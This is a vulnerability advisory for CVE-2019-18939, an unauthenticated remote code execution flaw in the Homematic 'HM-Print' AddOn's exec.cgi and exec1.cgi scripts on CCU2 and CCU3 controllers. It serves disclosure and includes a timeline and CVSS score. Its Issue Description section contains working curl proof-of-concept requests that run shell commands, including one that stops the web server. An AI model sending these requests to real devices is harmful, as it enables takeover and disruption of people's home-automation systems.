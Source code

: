 ```yaml
---
layout: post
title:  "CVE-2019-18939 eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request"
date:   2019-11-14 19:30:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-18939
- Author: psytester
- Title: eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: --
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'HM-Print' AddOn contacted: 13.08.2019 as [issue #4](https://github.com/litti/hm-print/issues/4)
  - Developer of 'HM-Print' AddOn confirmation: N.A.
  - 'HM-Print' AddOn patch: N.A.
  - Affected 'HM-Print' AddOn version: 1.2a and prior

# Background

From [Github 'HM-Print' AddOn project page](https://github.com/litti/hm-print):<br>
For documentation purposes it would sometimes be desirable to be able to print programs within the WebUI. Unfortunately, the interface does not offer a corresponding function. Also the built-in print function of the browser does not help, because scripts may remain unaffected by the printout. With this small AddOn this functionality can be easily retrofitted.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'HM-Print' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented internal system.Exec() call on exec.cgi or exec1.cgi:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'

curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'
```

2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device call on exec.cgi or exec1.cgi:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'

curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
```

# CVE

[CVE-2019-18939](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18939)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
